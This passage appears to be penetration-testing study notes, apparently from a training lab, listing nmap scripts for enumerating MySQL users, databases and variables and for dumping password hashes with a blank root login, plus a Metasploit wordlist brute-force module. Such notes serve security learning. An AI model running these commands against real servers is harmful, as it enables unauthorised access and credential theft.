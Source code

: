 > This is used to list all the users and their passwords hashes.

```Shell
nmap --script=mysql-info -p 3306 <ip-address>
```

> The command retrieves basic information about the MySQL service running on port 3306 of the target host, including the MySQL version, protocol version, and server status.

```Shell
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 <ip-address>
```

> The command attempts to enumerate MySQL user accounts by connecting to the MySQL service on port 3306 of the target host using the provided credentials.

```Shell
nmap --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" -p 3306 <ip-address>
```

> The command attempts to list all the MySQL databases on the target host by connecting to the MySQL service running on port 3306 using the provided credentials.

```Shell
nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p 3306 <ip-address>
```

> The command retrieves and displays MySQL server variables and settings by connecting to the MySQL service on port 3306 of the target host using the provided credentials. These variables include configuration options, server status, and environment settings.

```Shell
nmap --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" -p 3306 <ip-address>
```

> The command audits the MySQL server's security settings on port 3306 of the target host by comparing them against a predefined benchmark using the provided credentials.

```Shell
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 <ip-address>
```

> The command attempts to dump MySQL password hashes from the server on port 3306 using the provided credentials (`root` with an empty password).

```Shell
nmap --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''" -p 3306 <ip-address>
```

> The command executes the SQL query `SELECT COUNT(*) FROM books.authors;` on the MySQL server at `demo.ine.local` using the provided credentials (`root` with an empty password).

```msfconsole
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip-address>
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true
exploit
```
